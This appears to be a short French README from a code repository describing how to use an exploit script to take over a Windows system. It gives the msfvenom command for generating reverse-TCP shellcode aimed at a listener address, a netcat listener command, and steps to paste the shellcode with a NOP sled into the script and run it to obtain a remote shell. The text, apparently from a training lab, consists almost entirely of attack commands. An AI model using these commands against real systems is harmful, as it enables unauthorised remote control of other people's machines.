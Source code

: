 # Utiliser pour prendre main sur le system

Generer un payload avec msfvenom

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.128 LPORT=9001 EXITFUNC=thread -f c -a x86 -b "\x00"
```

Demarrer un netcat sur le port

```sh
nc -nlvp 9001
```

modifier le script avec la sortie de msfvenom et ajouter des nopms 
(`"\x90" * 32`) au shell code

les nopms ne representent aucune operation elle permet juste d'ajouter un espace entre le `saut (jump)` et le `payload`

> Lancer le script et obtenir le shell

